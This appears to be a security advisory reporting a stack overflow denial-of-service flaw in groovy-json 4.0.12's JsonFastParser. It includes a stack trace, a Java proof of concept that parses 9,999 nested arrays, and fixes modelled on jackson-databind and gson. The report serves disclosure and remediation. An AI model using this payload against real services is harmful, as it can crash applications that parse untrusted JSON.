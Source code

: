## StackOverflowError caused by groovy-json parsing of untrusted JSON String
### Description
---
Using groovy-json to parse untrusted JSON String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:252)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            ...
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
### Version
        <dependency>
            <groupId>org.apache.groovy</groupId>
            <artifactId>groovy-json</artifactId>
            <version>4.0.12</version>
        </dependency>

### PoC
---
import groovy.json.JsonParser;
import org.apache.groovy.json.internal.JsonFastParser;

        public class ApacheGroovyJsonTest {

            public final static int TOO_DEEP_NESTING = 9999;
            public final static String TOO_DEEP_DOC = _nestedDoc(TOO_DEEP_NESTING, "[ ", "] ", "0");


            public static String _nestedDoc(int nesting, String open, String close, String content) {
                StringBuilder sb = new StringBuilder(nesting * (open.length() + close.length()));
                for (int i = 0; i < nesting; ++i) {
                    sb.append(open);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                sb.append("\n").append(content).append("\n");
                for (int i = 0; i < nesting; ++i) {
                    sb.append(close);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                return sb.toString();
            }

            public static void main(String[] args) {
                JsonParser jsonParser = new JsonFastParser();
                jsonParser.parse(TOO_DEEP_DOC);
            }
        }

        
### Rectification Solution
---
1.Refer to the solution of jackson-databind: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([FasterXML/jackson-databind@fcfc499](https://github.com/FasterXML/jackson-databind/commit/fcfc4998ec23f0b1f7f8a9521c2b317b6c25892b))

2.Refer to the GSON solution: Change the recursive processing on deeply nested arrays or JSON objects to stack+iteration processing.([google/gson@2d01d6a20f39881c692977564c1ea591d9f39027](https://github.com/google/gson/commit/2d01d6a20f39881c692977564c1ea591d9f39027%EF%BC%89))
